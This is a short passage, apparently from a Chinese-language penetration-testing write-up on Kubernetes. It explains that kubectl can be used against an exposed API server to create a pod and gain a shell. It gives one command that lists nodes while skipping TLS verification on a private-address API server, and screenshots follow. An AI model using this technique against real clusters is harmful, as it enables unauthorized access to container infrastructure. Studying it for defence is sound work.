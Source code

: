 [![](assets/1701678402-001d8644f0a5c77884849a796e4dc231.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190917-e741de8a-8f70-1.png)

#### 获取节点信息控制

利用 kubectl 自带的功能，可以直接实现类似攻击 8080 端口的方式，创建一个 pod 然后得到 shell

```plain
kubectl --insecure-skip-tls-verify -s https://192.168.108.100:6443 get node
```

[![](assets/1701678402-c2ea1290b2790d5c6c357cedae4e5f0e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190917-e75e25e0-8f70-1.png)  
[![](assets/1701678402-09beb009839f35714c0f5717942c8155.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190917-e7776564-8f70-1.png)
